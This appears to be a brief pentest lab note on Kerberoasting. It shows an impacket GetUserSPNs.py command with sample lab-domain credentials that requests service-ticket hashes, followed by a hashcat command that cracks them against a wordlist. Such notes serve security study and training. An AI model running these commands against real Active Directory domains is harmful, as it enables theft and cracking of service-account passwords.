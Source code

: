 ## GetUserSPNs.py - by impacket
```sh
> GetUseSPNs.py <domain.name/username:password: marvel.local/fcastle:Password1> -dc-ip <myIPAddress: 192.168.57.140> -request 
```

copy the hash in the output and crack hashusing hashcat

```sh
> hashcat -m 13100 <hashfile: hashes4.txt> <passwordlist: rockou.txt> -O
```